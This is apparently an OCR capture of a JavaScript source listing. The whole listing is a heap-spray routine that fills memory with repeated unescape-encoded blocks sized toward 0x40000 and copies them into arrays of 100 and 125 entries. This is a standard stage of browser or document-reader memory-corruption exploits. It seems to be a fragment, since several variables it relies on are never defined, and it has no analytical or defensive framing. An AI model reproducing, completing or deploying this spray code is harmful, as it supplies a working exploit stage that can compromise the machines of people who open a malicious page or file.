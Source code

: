 ```js
var5 = var4 + var3;
var6 = unescape("%ub32f%u3791");
var8 = 20 + var5.length

while (var6.length < var8)
{
    var6 += var6;
}

var9 = var6.substring(0, var8);
var10 = var6.substring(0, var6.length - var8);

while(var10.length+var8 < 0x40000)
{
    var10 = var10 + var10 + var9;
}

var11 = new Array();

for (i=0; i<100; i++)
{
    var11[i] = var10 + var5;
}

for (i=142; i>=0; --i)
{
    var2 += unescape("%ub550%u0166");
}

var12 = var2.length + 20
while (var2.length < var12)
{
    var2 += var2;
}

var13 = var2.substring(0, var12);
var14 = var2.substring(0, var2.length-var12);

while(var14.length + var12 < 0x40000)
{
    var14 = var14 + var14+var13;
}

var15 = new Array();

for (i=0; i<125; i++)
{
    var15[i] = var14 + var2;
}
```
